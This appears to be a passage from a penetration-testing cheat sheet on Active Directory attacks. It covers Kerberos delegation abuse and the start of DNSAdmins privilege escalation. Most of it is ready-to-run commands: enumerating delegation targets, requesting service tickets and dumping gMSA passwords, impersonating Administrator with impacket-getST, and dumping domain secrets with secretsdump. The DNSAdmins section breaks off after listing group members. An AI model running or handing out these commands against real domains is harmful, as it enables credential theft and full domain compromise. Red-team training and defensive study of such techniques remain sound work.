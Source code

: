 ## Attack
1. **Identify a target **
```bash
#Using impacket (Linux)
impacket-findDelegation <Domain>/<USER>:<PASS>
#Using ldap (Linux)
ldapdomaindump -u "DOMAIN\\Account" -p <PASS> <IP> && grep TRUSTED_FOR_DELEGATION domain_computers.grep
#Crakmapexec (Linux)
crackmapexec ldap <IP> -u <Username> -p <PASS> --trusted-for-delegation
#Active Directory module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
2. **Getting the NTLM hash**
```bash
impacket-GetUserSPNs <DOMAIN>/<ConstrainedUser> -dc-ip <IP> -request
python3 gMSADumper.py -u <USER> -p <Password> -l <LDAPDomain> -d <Domain>
```
> **Tool** -> [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
> More info about GMSA 
> - [https://adsecurity.org/?p=4367](https://adsecurity.org/?p=4367)
> - [https://cube0x0.github.io/Relaying-for-gMSA/](https://cube0x0.github.io/Relaying-for-gMSA/)

3. **Impersonating with the Silver ticket attack**
```bash
impacket-getST <Doamin>/<ConstrainedUser> -hashes :<HASH>  -spn <DelegationRightsTo> -impersonate Administrator
```
4. **Setting up an environment variable for authentication**
```bash
export KRB5CCNAME=CCACHE_FILE.CCACHE
```
5. **Access services you have the right to.**
```bash
impacket-secretsdump -k <Domain>/Administrator@<DelegationRightsToDomain> -dc-ip <IP> -no-pass
impacket-smbclient -k <Domain>/Administrator@<DelegationRightsToDomain> -dc-ip <IP> -no-pass
```
---
# DNSAdmins
- It's Possible for the members of the `DNSAdmins` group to load arbitrary DLL with the privileges of `dns.exe (SYSTEM)`.
- In case the DC also serves as DNS, this will provide us escalation to DA.
- Need privileges to restart the DNS service.

## Attack
1. **Enumerate the members of the DNSAdmins group.**
```powershell
#Powerview module
Get-NetGroupMember -GroupName "DNSAdmin"
#ActiveDirectory module
Get-ADGroupMember -Identity DNSAdmins
```
> Once we know the members of the DNSAdmins group,we need to compromise a member.we already have of hash of srvadmin because of derivative local admin.
